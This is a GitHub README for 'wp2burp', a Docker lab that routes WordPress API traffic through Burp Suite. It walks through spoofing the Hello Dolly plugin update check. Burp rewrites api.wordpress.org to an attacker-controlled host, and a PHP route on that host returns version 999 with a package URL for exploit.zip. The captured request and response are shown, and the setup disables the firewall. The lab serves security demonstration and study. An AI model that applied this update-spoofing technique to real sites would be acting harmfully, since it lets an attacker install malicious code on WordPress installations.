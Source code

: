# wp2burp

Intercept WordPress requests with Burp Suite

---

Allows you to deploy WordPress instance in Docker, see all internal requests to WordPress API in Burp Suite, intercept requests & responses. 

Especially useful to demonstrate how the plugin update work. In the example, we will spoof the update for the "Hello Dolly" WordPress Plugin, and instead of the official one, malicious version 999 hosted on our server will be downloaded & installed.

## Installation

1) Open `Burp Suite` and edit the `Proxy Listener` to listen on `All Interfaces`
    - _Proxy > Options > Proxy Listeners > Edit > All Interfaces > OK_

2) Edit `docker-compose.yml` and change IP of the `Proxy Listener`
    - _- "burp:10.10.10.254" # Burp Suite proxy IP_

3) Make sure that `Firewall` is not blocking access to `Proxy Listener`
    - _$ sudo ufw disable_

4) Run `Docker`, install `WordPress` and `Burp Suite` certificate
```bash
$ git clone https://github.com/vavkamil/wp2burp.git
$ cd wp2burp/
$ sudo chmod +x bin/install-wp.sh
$ sudo chmod +x bin/burp.sh
$ docker-compose up -d --build
$ docker-compose run --rm --user 33:33 wp-cli install-wp
$ docker exec -ti wp2burp_wordpress_1 /var/www/html/burp.sh
```

4) Visit the [WordPress instance](http://127.0.0.1:31337/wp-login.php) and login with `admin:admin`
    - _You should see all internal WordPress requests in Burp HTTP history tab_

## Usage

1) Open `Burp Suite` and edit the `Proxy Listener` to `redirect all requests received by listener`
    - _Proxy > Options > Proxy Listeners > Edit > Request handling_
      - _Redirect to host: xss.vavkamil.cz_
      - _Redirect to port: 443_
      - _Force use of TLS_
2) Edit `Match and Replace` to spoof the `Host` header
    - _Proxy > Options > Match and Replace > Add_
      - _Type: Request header_
      - _Match: api.wordpress.org_
      - _Replace: xss.vavkamil.cz_
3) Create route on `your web server` to respond to `plugin update checks`:
```bash
$ cat plugins/update-check/1.1/index.php

<?php
  header('Access-Control-Allow-Origin: *');
  header('Content-type: application/json');

  $response = array(
    "plugins" => array(
      "hello.php" => array(
        "new_version" => "999",
        "package" => "https://xss.vavkamil.cz/plugins/exploit.zip",
      ),
    ),
  );

  echo json_encode($response); 
?>
```

You should be able to intercept the WordPress requests asking for available plugin updates and respond with a spoofed response.

## Example

### Request

```
POST /plugins/update-check/1.1/ HTTP/2
Host: api.wordpress.org
User-Agent: WordPress/5.3; http://127.0.0.1:31337/
Accept: */*
Accept-Encoding: gzip, deflate
Referer: https://api.wordpress.org/plugins/update-check/1.1/
Connection: close
Content-Length: 1778
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

plugins=%7B%22plugins%22%3A%7B%22akismet%5C%2Fakismet.php%22%3A%7B%22Name%22%3A%22Akismet+Anti-Spam%22%2C%22PluginURI%22%3A%22https%3A%5C%2F%5C%2Fakismet.com%5C%2F%22%2C%22Version%22%3A%224.1.3%22%2C%22Description%22%3A%22Used+by+millions%2C+Akismet+is+quite+possibly+the+best+way+in+the+world+to+%3Cstrong%3Eprotect+your+blog+from+spam%3C%5C%2Fstrong%3E.+It+keeps+your+site+protected+even+while+you+sleep.+To+get+started%3A+activate+the+Akismet+plugin+and+then+go+to+your+Akismet+Settings+page+to+set+up+your+API+key.%22%2C%22Author%22%3A%22Automattic%22%2C%22AuthorURI%22%3A%22https%3A%5C%2F%5C%2Fautomattic.com%5C%2Fwordpress-plugins%5C%2F%22%2C%22TextDomain%22%3A%22akismet%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Akismet+Anti-Spam%22%2C%22AuthorName%22%3A%22Automattic%22%7D%2C%22hello.php%22%3A%7B%22Name%22%3A%22Hello+Dolly%22%2C%22PluginURI%22%3A%22http%3A%5C%2F%5C%2Fwordpress.org%5C%2Fplugins%5C%2Fhello-dolly%5C%2F%22%2C%22Version%22%3A%221.7.2%22%2C%22Description%22%3A%22This+is+not+just+a+plugin%2C+it+symbolizes+the+hope+and+enthusiasm+of+an+entire+generation+summed+up+in+two+words+sung+most+famously+by+Louis+Armstrong%3A+Hello%2C+Dolly.+When+activated+you+will+randomly+see+a+lyric+from+%3Ccite%3EHello%2C+Dolly%3C%5C%2Fcite%3E+in+the+upper+right+of+your+admin+screen+on+every+page.%22%2C%22Author%22%3A%22Matt+Mullenweg%22%2C%22AuthorURI%22%3A%22http%3A%5C%2F%5C%2Fma.tt%5C%2F%22%2C%22TextDomain%22%3A%22%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Hello+Dolly%22%2C%22AuthorName%22%3A%22Matt+Mullenweg%22%7D%7D%2C%22active%22%3A%5B%5D%7D&translations=%5B%5D&locale=%5B%5D&all=true
```

### Response

```
HTTP/2 200 OK
Date: Sun, 10 Oct 2021 19:13:57 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=NpTdm3rT6Twj%2FvltPnM2Lb627HEIH4tcXE%2FTqUW0ZSqB7QQlDef1ttcmizy5cx2qcGwpKR%2BmudmYA0tp0G5QVEJ8G4%2Fu%2Bh07GKDQfbBYlJext3lDiKXRNB0EHIi3lD35oLk%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 69c22b4018442794-PRG
Alt-Svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400, h3-28=":443"; ma=86400, h3-27=":443"; ma=86400

{"plugins":{"hello.php":{"new_version":"999","package":"https:\/\/xss.vavkamil.cz\/plugins\/exploit.zip"}}}
```

### Screenshot

![](screenshot.png)

## Shell

```bash
$ docker exec -ti wp2burp_wordpress_1 /bin/bash
```

## Uninstall

```bash
$ docker-compose down
$ docker volume rm dvwp-master_db
$ docker volume rm dvwp-master_wp
```
